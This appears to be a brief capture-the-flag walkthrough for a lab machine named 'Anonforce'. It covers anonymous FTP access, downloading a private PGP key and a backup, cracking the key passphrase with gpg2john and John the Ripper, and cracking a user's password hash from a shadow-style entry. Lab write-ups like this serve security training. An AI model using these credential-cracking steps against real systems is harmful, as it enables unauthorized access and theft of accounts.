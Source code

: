 # Anonforce
```
export ip = 10.10.3.171
```

## SCAN
```
21 FTP 
22 SSH
```

## FTP 
```
FTP is allowed Anonymous Login
  drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread

  - get backup.php
  - get private.asc

get user txt
1. cd /home/melodias/user.txt
2. get user.txt
```

## PGP Crack
```
How to Crack "*.asc" file

1. sudo gpg2john *.asc > hash
2. john hash --wordlist={{Password File}}

Crack Password is 'xbox360' 
```
## How to Read backup.pgp
```
1. gpg --decrypt backup.pgp
--> Password is 'xbox360' 
```

## Get Credential 
```
Credential File : credentialCrack/credential
melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1:18120:0:99999:7:::
```

## Credential Crack
```
john credential --wordlist={{rockyou.txt}}
```

# Done
